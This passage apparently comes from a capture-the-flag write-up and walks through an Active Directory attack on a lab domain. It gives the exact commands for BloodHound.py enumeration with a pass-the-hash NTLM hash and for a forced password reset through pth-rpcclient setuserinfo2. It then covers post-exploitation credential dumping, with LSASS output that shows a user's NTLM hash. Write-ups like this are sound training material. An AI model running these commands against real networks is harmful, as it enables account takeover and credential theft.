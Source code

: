 Bloodhound.py (https://github.com/fox-it/BloodHound.py) execution with user C:
```
$ python bloodhound.py -u Валерий --hashes 00000000000000000000000000000000:BE5C60EC1E9ED48B1ACB5C87D555C6E2 -d CONTI.RU -dc DC1.CONTI.RU -ns 10.0.20.11 -c All
```

A path from the owned user ВАЛЕРИЙ (user C) to ЗИНАИДА (let's call him user D), a local admin of `PC1.CONTI.RU` stands out. Indeed, user C has a `GenericAll` permission on user D, which allows password reset:
![BloodHound attack path](/assets/breizhctf-22-bloodhound-path.png)

We perform the password reset via `pth-rpcclient` and `setuserinfo2` RPC call:
```
$ pth-rpcclient -U CONTI.RU/Валерий%00000000000000000000000000000000:BE5C60EC1E9ED48B1ACB5C87D555C6E2 //10.0.20.11

rpcclient $> setuserinfo2 ЗИНАИДА 23 'TipiHackWasH3re'
E_md4hash wrapper called.
E_deshash wrapper called.
```

From this point, we can connect to `PC1.CONTI.RU` with `ЗИНАИДА` and get the first flag on the desktop:
![SMBClient first flag](/assets/breizhctf-22-first-flag.png)

### Second part

We are local administrator of `PC1.CONTI.RU`, we now want to get domain administrator privileges. We execute post-exploitation tools on `PC1.CONTI.RU` to gather more information: dump lsass memory with procdump, SAM dump, LSA secrets, DPAPI, etc.

From LSASS memory dump, we can collect the credentials of the user `CONTI.RU\Дарья` (user E):
```
Authentication Id : 0 ; 337548 (00000000:0005268c)
Session           : Interactive from 1
User Name         : Дарья
Domain            : CONTI
Logon Server      : DC1
Logon Time        : 01/04/2022 11:41:16
SID               : S-1-5-21-2511036384-2806266831-3360082211-1122
        msv :
         [00000003] Primary
         * Username : Дарья
         * Domain   : CONTI
         * NTLM     : 7a0f1f2a2b2a749312b97777b61cd6a5
```